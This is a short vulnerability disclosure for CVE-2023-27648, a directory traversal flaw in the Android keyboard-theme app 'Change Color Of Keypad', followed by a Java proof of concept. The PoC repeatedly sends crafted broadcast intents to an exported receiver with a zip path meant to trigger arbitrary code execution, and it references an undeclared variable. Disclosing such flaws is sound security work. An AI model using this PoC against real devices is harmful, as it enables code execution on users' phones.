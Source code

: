 ## Code execution exists in Change Color Of Keypad（CVE-2023-27648）

Vendor：T-ME Studios (https://corporate.timmystudios.com/)

Affected product：Change Color Of Keypad (com.jb.gokeyboard.theme.twchangecolorofkeypad)

Version：11.275.1.277

Download link：https://play.google.com/store/apps/details?id=com.jb.gokeyboard.theme.twchangecolorofkeypad

Description of the vulnerability for use in the CVE：Directory Traversal vulnerability found in T-ME Studios Change Color of Keypad v.1.275.1.277 allows a remote attacker to execute arbitrary code via the dex file in the internal storage.



poc：

```java
private void attack() {
    while (true) {
        Intent intent = new Intent();
        ComponentName componentName = new ComponentName("com.jb.gokeyboard.theme.twchangecolorofkeypad", "com.timmystudios.redrawkeyboard.themes.SuperThemeReceiver");
        intent.setComponent(componentName);
        intent.setAction("com.timmystudios.redrawkeyboard.intent.action.THEME_APPLIED");
        intent.putExtra("package-name","com.ludashi.xsuperclean");
        intent.putExtra("selected-font",true);
        intent.putExtra("font_name","hack");
        intent.putExtra("font_id","2");
        intent.putExtra("font_resource","hackkkk");
        intent.putExtra("font_size",123456);
        intent.putExtra("selected-sound",true);
        intent.putExtra("sound_name","hack");
        intent.putExtra("sound_id","2");
        intent.putExtra("sound_resource","hackkkk");
        intent.putExtra("sound_size",123456);
        intent.putExtra("go_theme_id",3);
        intent.putExtra("go_res_zip_path","/data/local/tmp/test.zip");
        System.out.println("发送的数据大小：" + legnth);
        try {
            System.out.println("发送数据");
            sendBroadcast(intent);
        } catch (Exception e) {
        }
    }
}
```



